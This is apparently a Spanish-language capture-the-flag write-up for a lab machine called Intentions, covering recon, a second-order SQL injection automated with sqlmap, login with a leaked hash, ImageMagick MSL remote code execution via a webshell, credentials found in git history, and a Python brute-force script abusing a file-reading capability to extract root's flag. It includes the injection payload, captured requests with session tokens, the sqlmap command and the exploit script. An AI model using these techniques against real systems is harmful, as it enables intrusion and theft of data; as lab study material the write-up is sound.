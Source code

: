 ------
- Tags: #sqli #sqlmap #api #API-Enumeration #image-magick #git #python-scripting #md5sum #seasson2 
--------
## Técnicas utilizadas
- SQL injection [sqlmap --second-req]
- Abusing the api
- ImageMagick [VID Scheme]
- information leakage from commits[git]
- Abusing custom script [python scripting]
## Procedimiento
![[Pasted image 20230701124627.png]]

#### Reconocimiento
Si lanzamos un **nmap** podemos descubrir los siguientes puertos abiertos:
```ruby
# nmap -sCV -p22,80 10.129.21.83 -oN Ports
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-01 12:43 MST
Nmap scan report for 10.129.21.83
Host is up (0.13s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 47d20066275ee69c808903b58f9e60e5 (ECDSA)
|_  256 c8d0ac8d299b87405f1bb0a41d538ff1 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Intentions
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.65 seconds
```

Un escaneo con **whatweb** nos permite ver las siguientes tecnologías web:
```ruby
# whatweb 10.129.21.83
http://10.129.21.83 [200 OK] Cookies[XSRF-TOKEN,intentions_session], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], HttpOnly[intentions_session], IP[10.129.21.83], Script, Title[Intentions], UncommonHeaders[x-content-type-options], X-Frame-Options[SAMEORIGIN], X-XSS-Protection[1; mode=block], nginx[1.18.0]
```

-------
#### SQL injection [sqlmap --second-req]
Si visitamos la pagina, nos encontramos con un **login**. Tenemos la opcion de registrarnos o de iniciar sesión:
![[login.png]]

Podemos intentar algunas de las inyecciones basicas de sql pero no funcionaran. Si registramos una cuenta, nos encontramos el siguiente **dashboard**:
![[dashboard_user.png]]

En la sección de **Your feed** se muestran los intereses que definiamos nosotros en el apartado de **Favorite Genres**:
![[genres_input.png]]

Y en **Your feed** se ve reflejado:
![[your_feed.png]]

Podemos intentar algunas inyecciones basicas en el campo de **Genres** y podemos observar que hay una que especialmente parece funcionar:
![[genres_input_sqli.png]]

Y como resultado, en **Your Feed** vemos que se nos muestran todos los otros resultado incluyendo las comidas:
![[your_feed_sqli.png]]

Bien, pues si seguimos intentando inyecciones, vemos que no podemos obtener más nada. Podemos ponernos a pensar que puede estar pasando por detras, cuando intentamos la inyección y recargamos la pagina, observamos que nuestro **input** no contiene espacios, esto es porque el sevidor quizás los ha borrado:
![[Pasted image 20230705215724.png]]

Sin embargo, hay maneras de burlar este tipo de "restricciones", en mi caso usare **sqlmap** para automatizar la extracción de informacion, además haremos uso de un **tamper** de **sqlmap** que nos elimina los espacios y nos agrega comantarios **SQL**, la inyección principal se veria asi:
```
food')/* comment */&&/* comment */1/* comment */#;
```

Procederemos a crear un archivo que contendra las dos peticiones. Una con la inyección y otra que consultara la pagina en busca del comportamiendo adecuado:

**req.txt**:
```bupsuite
POST /api/v1/gallery/user/genres HTTP/1.1
Host: 10.10.11.220
Content-Length: 25
Accept: application/json, text/plain, */*
X-XSRF-TOKEN: eyJpdiI6IkJreFBoYmQycTRjNHVObTdjb3FKSWc9PSIsInZhbHVlIjoibGJHOUVjU2d4a2lvUjlvWVVuUUxzWjk0QXpQUWVmSkdSbFp4SHBpTDVuRkppdVdJeDRpc3Y2YS9lTTZPM0VTV3pqWXN3M2lGenYvcTMzV2drNVdDOHYwZzdlUGlUcnExcVRmRWRSeVdmRXg5Q2ZrV0s1TWtZSHQvSE1BajJoMDMiLCJtYWMiOiI1NzNkNTM0MzNlYjE0ZjgyMjFhZmI2MDJlY2NkYTA1YjAzYmI3ZmVmYTQ0YWQwMGVhZDIzNzI0YmE2MTM2YjllIiwidGFnIjoiIn0=
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Content-Type: application/json
Origin: http://10.10.11.220
Referer: http://10.20.11.220/gallery
Accept-Encoding: gzip, deflate
Accept-Language: es-419,es;q=0.9
Cookie: token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOi8vMTAuMTI5LjE5LjEwMS9hcGkvdjEvYXV0aC9sb2dpbiIsImlhdCI6MTY4ODQwNjc5MiwiZXhwIjoxNjg4NDI4MzkyLCJuYmYiOjE2ODg0MDY3OTIsImp0aSI6IlN3YmlTcWtIMExzRDB1RWYiLCJzdWIiOiIyOCIsInBydiI6IjIzYmQ1Yzg5NDlmNjAwYWRiMzllNzAxYzQwMDg3MmRiN2E1OTc2ZjcifQ.IYAi78SI15qVBCYoGfBC6xwvFKAkT9Pr0SR6YyzQnT0; XSRF-TOKEN=eyJpdiI6IkJreFBoYmQycTRjNHVObTdjb3FKSWc9PSIsInZhbHVlIjoibGJHOUVjU2d4a2lvUjlvWVVuUUxzWjk0QXpQUWVmSkdSbFp4SHBpTDVuRkppdVdJeDRpc3Y2YS9lTTZPM0VTV3pqWXN3M2lGenYvcTMzV2drNVdDOHYwZzdlUGlUcnExcVRmRWRSeVdmRXg5Q2ZrV0s1TWtZSHQvSE1BajJoMDMiLCJtYWMiOiI1NzNkNTM0MzNlYjE0ZjgyMjFhZmI2MDJlY2NkYTA1YjAzYmI3ZmVmYTQ0YWQwMGVhZDIzNzI0YmE2MTM2YjllIiwidGFnIjoiIn0%3D; intentions_session=eyJpdiI6ImVxajFaWXVMQ2QxSjE2MHVxTW5kZkE9PSIsInZhbHVlIjoiWXZ6SmhkcUc1T3pqTG1pOVg4OG9wcEpxUCtPYlZNS09iUXE1ditMTGg2dlRLU0R2eUgvV3ZNRloxVW1UQjJvUkNmRHZrVHV3V1Z6bjluL0ZyQlVkNmVVclV0cE9QTlF3VEV0bXpacXA0VFhMakRueWlyOXNaYU51QjloYzZSVmEiLCJtYWMiOiI4YzA3YTQ1MTRhMjdkNmQxZDMxZjQ5MmZiYTE4MmEyNzAwMWM1NTdjYTRhMDE1ZmY0MmUxN2YyOWExNzFjNzg2IiwidGFnIjoiIn0%3D
Connection: close

{"genres":"food*#;"}
```

**req2.txt**
```
GET /api/v1/gallery/user/feed HTTP/1.1
Host: 10.10.11.220
Accept: application/json, text/plain, */*
X-XSRF-TOKEN: eyJpdiI6IkduN1hxT3hsYy92dnJDbUNpTWtwZXc9PSIsInZhbHVlIjoiK0l1UXpFa2w4L2wvNFJlV0lmS2I5UHUzTVI3TS9JTGFZWVRiaHYvcGNCaytCcXZMYng2dE9HbE9oRERZQ3FzMEMrdDdWVENIbUc1NW5qeHNHYlRSOFpPQzlLczIrTStWbXF6TytCWnRpc005QzdmbE54Wk1HemhHT0VHWXBwOHkiLCJtYWMiOiI5YzNlZjg3YjE1NzMzMDk0ODFjZThiYjAxMzc2Yjk0NDE5NDEyNDgyNGE2YzZmNTE0OGQyZDc5NWI5NmZjOWE5IiwidGFnIjoiIn0=
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Referer: http://10.10.11.220/gallery
Accept-Encoding: gzip, deflate
Accept-Language: es-419,es;q=0.9
Cookie: token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOi8vMTAuMTI5LjE5LjEwMS9hcGkvdjEvYXV0aC9sb2dpbiIsImlhdCI6MTY4ODQwNjc5MiwiZXhwIjoxNjg4NDI4MzkyLCJuYmYiOjE2ODg0MDY3OTIsImp0aSI6IlN3YmlTcWtIMExzRDB1RWYiLCJzdWIiOiIyOCIsInBydiI6IjIzYmQ1Yzg5NDlmNjAwYWRiMzllNzAxYzQwMDg3MmRiN2E1OTc2ZjcifQ.IYAi78SI15qVBCYoGfBC6xwvFKAkT9Pr0SR6YyzQnT0; XSRF-TOKEN=eyJpdiI6IkduN1hxT3hsYy92dnJDbUNpTWtwZXc9PSIsInZhbHVlIjoiK0l1UXpFa2w4L2wvNFJlV0lmS2I5UHUzTVI3TS9JTGFZWVRiaHYvcGNCaytCcXZMYng2dE9HbE9oRERZQ3FzMEMrdDdWVENIbUc1NW5qeHNHYlRSOFpPQzlLczIrTStWbXF6TytCWnRpc005QzdmbE54Wk1HemhHT0VHWXBwOHkiLCJtYWMiOiI5YzNlZjg3YjE1NzMzMDk0ODFjZThiYjAxMzc2Yjk0NDE5NDEyNDgyNGE2YzZmNTE0OGQyZDc5NWI5NmZjOWE5IiwidGFnIjoiIn0%3D; intentions_session=eyJpdiI6Im9BVUd6QnRUWCtlK1R5dUVEK0RWQ1E9PSIsInZhbHVlIjoiQURhMmNaZkc1b3JrVzFtQVM4d1o4UndFZWN5Y0F5M0Y4RDhMMW1zQ0JBQm9taXc3OS9Gb3UvL20vZm5Eeko0c1JLTU0xcHAvTVNLUVNTQzdBRy9EYko3bUNJTVd2alFZT3dYdkNjelNDNHRiSDJMZ3pXcEVGUFFaNVhUb2VlQmwiLCJtYWMiOiIxMzU1ZTM0ZTkyZDE5MmU0ZTFiOTg4MDY1NGY2OWU3MjNmMWU2ZmY5NTJiYjU2MTllMjk1OWQwMmI0NDgyMTE5IiwidGFnIjoiIn0%3D
Connection: close
```

El comando con **sqlmap** se vera de la siguiente manera:
```
# sqlmap -r req.txt --second-req req2.txt --batch --level=5 --risk=3 --tamper=space2comment.py
```

Si nos podemos a enumerar las bases de datos, podemos dar con unos hashes que nos servirar para ingresar como un usuario privilegiado a la pagina:
![[hashes.png]]

-----
#### Abusing the api
Si bien los hashes proporcionados no se pueden romperer ( Son **bcrypt** y demoran una eternidad, además de que la contraseña no se encuentra en ningun diccionario ) podemos utilizarlos para loguearnos como el usuario **greg**.

Enumerando la api, encontramos una funcionalidad nueva en la **V2**, esta nos permite ingresar con el **correo** y con el hash correspondiente del **usuario**:
![[login_with_hash.png]]

---------
#### ImageMagick [VID Scheme]
Ahora que tenemos un usuario con privilegios de administrador, podemos ir a la ruta */admin/* y visualizar el dashboard. En este, hay una aviso que nos cuenta que se esta implementando **ImageMagick**:
![[image_magick_info.png]]

Ademas, podemos observar que tenemos una sección donde podemos aplicarle algunos filtros a las imagenes del servidor:
![[edit_pics.png]]

Sabiendo que por detras esta **ImageMagick** y hay un apartado que  hace funcion de este podemos buscar algun tipo de vulnerabilidad.
Si hacemos una busqueda rapida por google por **php imagemagick rce** vemos el siguiente [resultado](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) que llama la atención:
![[CVE.png]]

En este nos cuentan ciertas formas de explotar **ImageMagick** pero hay uno en particular que vamos a estar utilizando, este consiste en crear un archivo **.msl** que se subira a la web y contendra un codigo que nos creara una webshell en la ruta indicada, cabe mencionar que habran algunos parametros que cambiaran y algunos atributos nuevos se incluiran:
![[RCE_part1.png]]

Y en el cotenido pondremos lo siguiente:
![[RCE_part2.png]]

Una vez hecho esto, si verificamos la existencia del archivo nos encontramos con lo siguiente:
![[RCE_part3.png]]

Y solo es cuestion de realizar una petición con curl para poder ejecutar comandos de manera remota:
```ruby
# curl -s -X GET http://10.10.11.220/hola.php?a=system("whaomi")
caption: www-dataCAPTION 120x120 120x120+0+0 16-bit sRGB 2.080u 0:02.171
```

------
#### information leakage from commits[git]
Una vez como **www-data** podemos observar que dentro de los archivos de la web hay un **.git**. Si intetamos hacer un **git log** vemos que no tenemos la capacidad de listarlos. Podemos transferirnos toda la carpeta e intentar hacerlo desde nuestra maquina localmente. Antes de transferirla, tenemos que ir a una carpeta con permisos de escritura y crear un comprimido de la carpeta web ( utilizando **tar** ).
Dentro de los logs, podemos ver uno que contienes credenciales para el usuario **greg**:
![[password_leak.png]]

Podemos intentar conectarnos ahora como el usuario **greg** por ssh y visualizar la flag:
![[user_flag.png]]

-------
#### Abusing custom script [python scripting]
Dentro de la carpeta personal de **greg** podemos ver 2 archivos, uno de ellos hace uso de una herramienta de nombre **scanner** y otro simplemente es una lista de **md5 hashes**.

Enumerando la aplicacion vemos algunas caracteristicas algo peculiares, caracteristicas de las cuales nos podemos apoyar para aplicar fuerza bruta e ir extrayendo informacion de ficheros dado que el script cuenta con la capability **cap_dac_read_search=ep**  que nos permite leer cualquier archivo del sistema:
![[capability.png]]

Procedemos a montarnos un script en **python3** para automatizar la extracción de informacion de archivos:
```python
#!/usr/bin/env python

import subprocess
import string
import pdb

characters = "abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ"
text = ""

for i in range(1, 50):
    for character in characters:
        comando = '/opt/scanner/scanner -c /root/root.txt -s $(echo -n "%s%s" | md5sum | tr -d \' -\') -p -l %d' % (text,character,i)
        salida = subprocess.check_output(comando, shell=True, text=True)
        
       
        if 'matches' in salida:
            text += character
            break

print(text)
```

Y podemos visualizar la flag de **root**:
![[root_flag.png]]
